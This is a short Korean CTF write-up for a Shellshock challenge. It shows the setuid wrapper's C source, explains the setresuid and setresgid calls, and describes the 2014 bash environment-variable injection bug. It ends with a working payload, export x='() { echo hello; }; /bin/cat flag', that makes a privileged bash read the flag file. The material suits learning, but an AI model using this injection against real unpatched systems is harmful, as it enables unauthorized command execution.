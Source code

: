 ![[{5EBBFB66-000D-459A-A1B4-B662E4F4AC11}.png]]

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

`setresuid`, `setresgid`: SET R(eal), E(ffective), S(aved) UID/GID
프로세스의 real UID/GID, effective UID/GID, saved set-user-ID를 변경하는 함수라고 한다.

`getegid`: 현재 실행하고 있는 프로세스의 effective GID를 얻는 함수이다.

위 코드는 real, effective, saved UID, GID를 모두 effective GID로 변경하는 것 같다.

#### shellshock

환경변수로는 변수와 함수가 등록될 수 있다.
- 변수 등록: `export 변수명='변수값'`
- 함수 등록: `export -f 함수명(){함수 body;}`

shellshock은 2014년 발견된 보안 취약점으로, 환경변수를 통한 코드 인젝션 기법으로 특정 코드를 삽입하여 실행한다.

`환경변수 x = (함수명){수행코드}; 공격명령`

환경변수를 등록하는 `(함수명){수행코드}`까지는 정상적으로 동작하고 그 이후 삽입되는 공격명령은 무시되거나 오류가 발생해야 하지만 실제로는 수행되는 것이다.

이를 이용해서 작성한 코드는 다음과 같다.

```shell
$ export x='() { echo hello; }; /bin/cat flag'
```

() 후에 공백이 있는 이유는 함수 이름을 빈칸으로 주기 위해서이다. 주의!

![[{7034D575-7C95-43CF-AE4D-6AF911395D89}.png]]

🚩